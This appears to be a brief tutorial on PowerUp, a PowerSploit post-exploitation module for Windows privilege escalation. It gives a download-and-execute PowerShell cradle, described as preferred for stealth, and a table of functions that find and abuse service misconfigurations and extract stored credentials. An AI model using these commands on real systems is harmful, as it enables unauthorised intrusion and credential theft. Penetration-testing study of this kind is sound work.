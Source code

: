 **PowerUp** is a PowerShell-based post-exploitation tool developed as part of the PowerSploit framework. It is designed to identify and exploite privilege escalation vectors on Windows systems.

## Loading PowerUp

To use PowerUp in-memory (preferred for stealth):

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
```

Alternatively, import it locally:
```powershell
Import-Module .\PowerUp.ps1
```

## Enumeration Functions
Once the PowerUp module is loaded (either from memory or disk), individual functions can be called directly from the PowerShell prompt. 
```powershell
Invoke-AllChecks
```

|Function|Description|
|---|---|
|`Invoke-AllChecks`|Runs a full suite of privilege escalation checks.|
|`Get-ServiceUnquoted`|Detects services with unquoted executable paths that can be exploited via binary planting.|
|`Get-ModifiableService`|Lists services whose executable paths are modifiable by the current user.|
|`Get-ModifiablePath`|Identifies writable directories included in the system `PATH`. Exploitable if a privileged process loads executables from there.|
|`Get-VulnSchTasks`|Finds scheduled tasks with insecure file permissions (e.g., writable task binaries).|
|`Get-RegistryAlwaysInstallElevated`|Checks if the "AlwaysInstallElevated" registry key is enabled, which allows local users to run MSI installers with SYSTEM privileges.|
|`Get-UnattendedInstallFiles`|Searches for unattended installation files (e.g., `Unattend.xml`, `sysprep.xml`) that may contain plaintext credentials.|
|`Get-CachedGPPPassword`|Extracts cached Group Policy Preferences passwords from local files. These are often stored in `Groups.xml` in SYSVOL.|
|`Invoke-ServiceAbuse`|Attempts to abuse misconfigured services identified by other functions (e.g., replace binary to escalate).|
